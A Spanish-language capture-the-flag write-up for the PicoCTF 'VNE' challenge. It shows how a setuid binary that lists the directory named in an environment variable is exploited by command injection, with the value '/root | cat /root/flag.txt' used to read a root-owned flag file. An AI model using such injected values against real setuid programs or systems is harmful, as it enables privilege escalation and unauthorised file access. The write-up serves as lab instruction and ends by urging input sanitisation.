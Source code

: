 # VNE

*dificultad*: media

*Conocimientos básicos*:

- SSH
- Ejecución remota de comandos / inyección de código
- Comandos básicos Linux

*Descripción*:

"We've got a binary that can list directories as root, try it out !!
Additional details will be available after launching your challenge instance."

------------

El desafío se inicia a través de una instancia de una máquina proporcionada por la infraestructura de PicoCTF, al iniciar la instancia se proporcionan las credenciales y la conexión a utilizar.

Se debe conectar por SSH utilizando las credenciales para el usuario ctf-player, por lo cual, usando linux, utilizamos el comando:
```
 $ ssh saturn.picoctf.net -p 50714 -l ctf-player
```
Una vez conectados se presenta una máquina Ubuntu 20.04.3 con kernel 6.5.0-1023 montada sobre AWS.

Si realizamos ls descubrimos que existe un unico archivo dentro de nuestra carpeta, siendo este el binario que mencionan en la descripción.

Al utilizar el binario de manera cruda y directa utilizando ./bin, este responde con el error:
```
$ Error: SECRET_DIR environment variable is not set
```
Esto nos otorga la pista que trabajaremos con variables de entorno en linux, por lo que un enfoque rápido puede consistir en intentar leer un directorio privilegiado estableciendo dicha variable de entorno:
```
$ export SECRET_DIR="/root"
```
Si esto funciona, entonces podremos leer cualquier parte del sistema que se nos antoje, por lo cual, probamos el binario otra vez, recibiendo el output:

  ```
  Listing the content of /root as root:
  flag.txt
  ```
Con esto ya tenemos la idea principal de la carpeta objetivo a la cual atacar, sin embargo, no podemos realizar una lectura de manera directa, en este caso, como sabemos que el desafío consiste en explotar un binario, podemos inspeccionar el archivo para encontrar posibles vulnerabilidades en el código, miremos su naturaleza y metadatos usando el comando file:

  ```
    $ file bin
      bin: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2,         
      BuildID[sha1]=202cb71538089bb22aa22d5d3f8f77a8a94a826f, for GNU/Linux 3.2.0, not stripped
  ```

Podría ser un binario compilado desde un código fuente en C, por lo cual podríamos debuggear el archivo, pero dichas herramientas no están presentes en la máquina, un enfoque podría consistir en traerse el archivo usando scp, no obstante, podría perderse mucho tiempo.

Pero, y si la variable de entorno en si pudiera ejecutar código? podríamos probar a ejecutar otros comandos dentro del string, si el código por debajo no sanitiza el input y nos permite enviar cualquier string, entonces esto se podría estar agregando al final del string de un ls realizado por el programa, sumemos entonces otro comando a la variable:

 ```
  $ export SECRET_DIR=""/root | cat /root/flag.txt""
 ```

Si funciona, nos daría el contenido del archivo flag.txt, por lo cual, ejecutamos el binario y vemos si podemos ejecutar el comando:

```
$ ./bin
  Listing the content of /root | cat /root/flag.txt as root:
  picoCTF{---REDACTED_BY_ZARCOPHAGE---}
```

El comando se ejecuta, por lo cual, acabamos de explotar nuestra inyección de código satisfactoriamente.

Sanitize your inputs pls

nota: flag censurada para evitar spoilear el desafío
